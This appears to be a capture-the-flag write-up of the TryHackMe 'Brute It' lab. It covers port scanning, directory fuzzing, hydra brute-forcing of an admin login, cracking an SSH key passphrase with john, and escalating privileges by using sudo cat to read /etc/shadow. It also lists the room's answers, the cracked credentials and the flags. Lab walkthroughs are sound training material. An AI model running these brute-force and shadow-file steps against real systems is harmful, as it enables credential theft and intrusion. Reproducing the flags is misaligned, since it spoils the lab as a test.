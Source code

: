 # Brute It

![logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/648413ba-68d8-4bce-beb7-be79cce9134e)

## Reconnaissance

Let's nmap scan the target to find open ports :

```bash
nmap -sT -sV 10.10.140.109
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/b9f1c508-92b8-4632-9ea2-65ae4c455893)

Ports `80` and `22` is open

* question #1 : How many ports are open? :  `2`

* question #2 : What version of SSH is running? : `OpenSSH 7.6p1`

* question #3 : What version of Apache is running? : `2.4.29`

* question #4 : Which Linux distribution is running? : `ubuntu`

Open a browser and navigate to matchine IP address, there is a default apache page

then we FUZZ the target with ffuff :

```bash
ffuf -w ~/wordlist/raft-medium-directories.txt  -u http://10.10.140.109/FUZZ -fc 403
```

![image](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/9f0755dd-14aa-407a-ab24-447dee18da11)

yes, there is an admin directory which we found with fuzzing

* question #5 : What is the hidden directory? : `/admin`

Next, browse to `/admin` directory :

![login](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/599e9b71-9b59-43e3-a175-f172f4b15a97)

SQLi does not work here, but when you see the page source you find a comment :

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

we can now brute force the login page with `hydra`, to do this we need to find the exact parameters that is being sent to the server

as page source form element shows, two parameters (user, pass) are sent when you submit the form.

so we need to inform hydra with this information :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.140.109 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -v
```

after a minute or two hydra will find the password for you :

![hydra](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/c1f7e047-4d5c-40f9-8c85-f944bd9ea79b)

now login to the website with `admin:xavier`

after logging in the page shows a flag and a link to download a private key :

![afterlogin](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/0b1827cb-001f-4fbe-b764-9264bc7e5a98)

download the private key which is for user "john" and change the permission to `600` :

```bash
chmod 600 john.key
```

if you want to directly connect to machine with this private key, it asks for passphrase of this private key which we don't have it yet.

![ssh](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/ef7b4657-7ef9-4ee4-b766-f339b8a2640d)

so we should use `ssh2john` to make a format appropriate for `john` for brute forcing the passpharse :

```bash
ssh2john john.key > out.txt
```
and then use this hash text with `john` to find the passphrase :

```bash
john out.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![john](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a034994e-d45e-4482-a1a7-1840878a5ca9)

## Getting a Shell

Now we can ssh to machine with john private key and `rockinroll` passphrase.

use `ls` to see the `user.txt` file and cat the content to find the flag.

```bash
cat user.txt
THM{a_password_is_not_a_barrier}
```

## Privilege Escalation

To see if any vector exists for privesc, we can use `sudo -l` :

```bash
sudo -l

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

yes, we can use cat as root, to find the root password we can cat the content of `/etc/shadow` :

```bash
sudo /bin/cat /etc/shadow
```

![shadow](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/df472b93-03ca-40a8-a1e8-1c7740515e49)

copy the first line and save it to a file like root.pass and use `john` again to brute force the hash

```bash
john root.pass --wordlist=/usr/share/wordlists/rockyou.txt
```

![br](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e44d6e64-42cc-496c-b7f8-ee97def03ff6)

to find the last flag just cat the root.txt in `/root` :

```bash
sudo /bin/cat /root/root.txt

THM{pr1v1l3g3_3sc4l4t10n}
```
